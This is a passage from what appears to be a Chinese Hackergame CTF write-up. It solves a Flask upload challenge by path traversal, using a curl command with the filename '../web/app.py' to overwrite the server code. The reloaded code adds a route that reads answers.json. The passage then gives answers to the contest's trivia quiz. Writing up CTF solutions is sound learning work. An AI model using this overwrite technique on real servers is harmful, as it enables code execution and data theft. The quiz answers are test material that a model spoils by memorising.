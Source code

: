简单搜索可知 flask 框架有一个 `secure_filename` 方法。这个方法的存在只能说明一件事：`filename`它不 secure

注意到题目明示

> 提示：助教部署的时候偷懒了，直接用了 flask run（当然了，助教也读过 Flask 的文档，所以 DEBUG 是关了的）。而且有的时候助教想改改代码，又懒得手动重启，所以还开了 --reload。启动的完整命令为 flask run --reload --host 0。网站代码运行在 /tmp/web。

思路清晰：构造 Path Traversal 覆盖 web 服务的源码。查文档得知 flask cli 缺省文件名是 `app.py`（其实还有`wsgi.py`和这俩同名目录下`__init__.py`，不过这题不是）

先加一个路由：

```python title="server.py" ins={1-5}
@app.route("/hack", methods=["GET"])
def hack():
    with open("answers.json") as f:
        return f.read()
```

然后用 curl 传上去

```shell
curl -L https://chal02-114514.hack-challenge.lug.ustc.edu.cn:8443/submit -F 'file=@server.py;filename=../web/app.py'
```

最后访问 `/hack` 拿数据，简单后处理即可（略）

## general

### 猫咪问答（Hackergame 十周年纪念版）

1. 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？（30 分）

先找到 LUG @ USTC Wiki 的[信息安全大赛 Hackergame](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/) 词条，数年份点进[第二届安全竞赛（存档）](https://lug.ustc.edu.cn/wiki/sec/contest.html)。

> 比赛时间安排
> 10 月 17 日 周六晚上 19:30 3A204 网络攻防技巧讲座 10 月 18 日 周日上午 10:00 初赛 在线开展 10 月 24 日 周六凌晨 00:00 初赛结束 后续开展复赛

答案：`3A204`

2. 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？（30 分）

同样从[信息安全大赛 Hackergame](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/) 找到历年 Write-ups 仓库，分别数题目数。

注意到 2019 年的题目数是 28，找到对应的[活动记录](https://lug.ustc.edu.cn/news/2019/12/hackergame-2019/)

> 经统计，在本次比赛中，总共有 2682 人注册，1904 人至少完成了一题。

答案：`2682`

3. Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？（20 分）

找到 [猫咪问答的 Write-up](https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md)

> 在中国科大图书馆中，有一本书叫做《程序员的自我修养:链接、装载与库》，请问它的索书号是？
> 打开中国科大图书馆主页，直接搜索“程序员的自我修养”即可。
